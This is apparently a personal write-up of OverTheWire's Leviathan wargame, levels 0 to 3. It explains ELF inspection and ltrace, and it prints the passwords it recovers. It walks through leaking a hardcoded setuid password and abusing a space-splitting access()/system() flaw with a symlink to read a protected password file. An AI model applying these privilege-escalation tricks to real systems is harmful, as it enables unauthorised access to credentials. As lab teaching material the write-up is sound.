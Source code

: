 # Leviathan Wargame

This repository documents my progress through the Leviathan wargame from OverTheWire. Leviathan is focused on Linux privilege escalation and basic binary exploitation concepts. It builds on foundational command-line knowledge and introduces challenges involving SUID binaries, input manipulation, and simple logic flaws.

Each level involves escalating access from one user to another, simulating real-world scenarios often seen in penetration tests. I’ll be detailing how I solved each level, the commands and tools I used, and the key concepts I learned. Some levels were completed with the help of community hints or public write-ups, but I made sure to try by myself, understand and explain each solution in my own words.

## Level 0 → 1
```bash
ls -la
cd .backup
ls -la
cat bookmarks.html
grep bookmarks.html 'pass'
```
As we log in, we notice a hidden directory called `.backup`. Inside, there is a file `bookmarks.html`, which includes notes as an `HTML` format. We check if the next password is there using `grep`, and it actually is.

Password: `3QJ3TgzHDq`

## Level 1 → 2
```bash
ls -la
./check
cat check
```
There is a binary file called `check` in the home directory. When being executed, it asks for a password, and it is not the same password as `Leviathan1`. By printing `check` we can see it starts with `ELF`, which is a common format for binary executables. 

### ELF Files
`ELF` is a common file format for executables, object code, shared libraries, and core dumps in Unix-based systems. `ELF` files have a structure that contains the following sections, we will discuss some of them in more depth later on.
* `ELF Header` - each `ELF` file starts with a header that contains data about the file. 
* `Program Header Table` - This section tells the system how to create the process image.
* `.text` - contains the program's executable instructions.
* `.rodata` - contains read only data.
* `.data` - stores initialized global and static variables, data that can be read or write.
* `Section Header Table` - allows to locate all of the file sections, such as `.text` and `.data`. 
There might be more sections, such as `.comment`, which is for comments, and `.debug` for debugging information. 

The `readelf` command is a useful tool that allows to view detailed information about ELF files.
for example, if we use `readelf -h`, we can see a human-readable details from the `ELF Header`.

```bash
readelf -S check
readelf -x .rodata check
readelf -x .data check
strings check
```
The `readelf -S` command shows us the sections of an `ELF` file. We see there some interesting sections that might show the password. Using `readelf -x` we can see the `hex dump` of a specific section, this time we tried `.data` and `.rodata`, that might include the password, but it wasn't there. The `strings` command parses and shows all the strings in a binary file, but looking at the strings, nothing seems like the password.

```bash
ltrace check
```
the `ltrace` command shows what libraries are called during a program execution. So after using `ltrace` on our executable, it asks for the password. When given the wrong one, we can see very useful info:
```bash
__libc_start_main(0x80490ed, 1, 0xffffd494, 0 <unfinished ...>
printf("password: ")                                              = 10
getchar(0, 0, 0x786573, 0x646f67password: 123
)                                 = 49
getchar(0, 49, 0x786573, 0x646f67)                                = 50
getchar(0, 0x3231, 0x786573, 0x646f67)                            = 51
strcmp("123", "sex")                                              = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                              = 29
+++ exited (status 0) +++
```
The line we are interested in is `strcmp("123", "sex")`. We tried the password `123`, and the program called `strcmp`, which is a function to compare strings, on `123` and `sex`. What probably happened here, is that the program compared the input to the actually password, which is `sex`.

```bash
./check
sex
```
This is the right password. By cracking the password of this executable, it opens a shell that is being executed with `Leviathan2` permissions.
```bash
$ whoami
leviathan2
$ cat /etc/leviathan\_pass/leviathan2
NsN1HwFoyN
```
By using `Leviathan2` permissions, we can access it's password in `/etc/leviathan_pass/`.

Password: `NsN1HwFoyN`

## Level 2 → 3
```bash
ls -la
./printfile
./printfile /etc/leviathan_pass/leviathan3
./printfile /etc/leviathan_pass/leviathan2
```
We log in and notice the file `printfile`. When executed, it prints:
```bash
*** File Printer ***
Usage: ./printfile filename
```
But when trying to print the password of `Leviathan3` it says:
```bash
You cant have that file...
```
But, when we try to print the password for `Leviathan2` it gives a `Permission denied` error, which means that it probably has permissions to print the poassword of `Leviathan3`, so it must have the user's permissions.
```bash
ltrace ./printfile /etc/leviathan_pass/leviathan3
ltrace ./printfile .bash_logout
```
As we trace the function calls, the first one, that contains the password, only uses `access` command which checks if it has permissions to the given file. On the second try, with a file that actually getting printed we get:
```bash
__libc_start_main(0x80490ed, 2, 0xffffd474, 0 <unfinished ...>
access(".bash_logout", 4)                                         = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout") = 21
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 0
+++ exited (status 0) +++
```
We can see that `/bin/cat` is being used, which can be useful.

```bash
mktemp -d
touch /tmp/tmp.pb8pbUsODK/file\ with\ spaces
ltrace ./printfile /tmp/tmp.pb8pbUsODK/file\ with\ spaces
```
We create a file with spaces in its name, and try to use `printfile` to print it. We trace the execution and get this:
```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/tmp/tmp.pb8pbUsODK/file with sp"..., 4)                  = 0
snprintf("/bin/cat /tmp/tmp.pb8pbUsODK/fil"..., 511, "/bin/cat %s", "/tmp/tmp.pb8pbUsODK/file with sp"...) = 45
geteuid()                                                         = 12002
geteuid()                                                         = 12002
setreuid(12002, 12002)                                            = 0
system("/bin/cat /tmp/tmp.pb8pbUsODK/fil".../bin/cat: /tmp/tmp.pb8pbUsODK/file: No such file or directory
/bin/cat: with: No such file or directory
/bin/cat: spaces: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                            = 256
+++ exited (status 0) +++
```
We can see that `access` tests `file with spaces`, but `cat` was called for every word separately. So it bypasses `access` and then it tries to print `/tmp/tmp.pb8pbUsODK/file`.

### Symbolic Links
A `symbolic link`, or a `soft link`, is a type of file that points to another file or directory. It is mainly used as a shortcut for files and directories, as it allows to access a file or directory from a different location without creating a copy of it. There is also another type of links, they're called `hard links` and they make files with the same `inode`, which is like having different names for the same file.

The `ln` command is a tool for creating links between files. By default it makes hard links, by adding the `-s` flag it can also make soft links.

```bash
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.pb8pbUsODK/file
chmod 777 /tmp/tmp.pb8pbUsODK
./printfile /tmp/tmp.pb8pbUsODK/file\ with\ spaces
```
We made a soft link to the file with the password of `Leviathan3` and called it `/tmp/tmp.pb8pbUsODK/file`. As we seen before, `access` tests the permission of the original file in the input `/tmp/tmp.pb8pbUsODK/file with spaces`, but `cat` is executed on every word separately, so it runs `cat /tmp/tmp.pb8pbUsODK/file`, and because it links to the password file, the password is being printed.

Password: `f0n8h2iWLP`
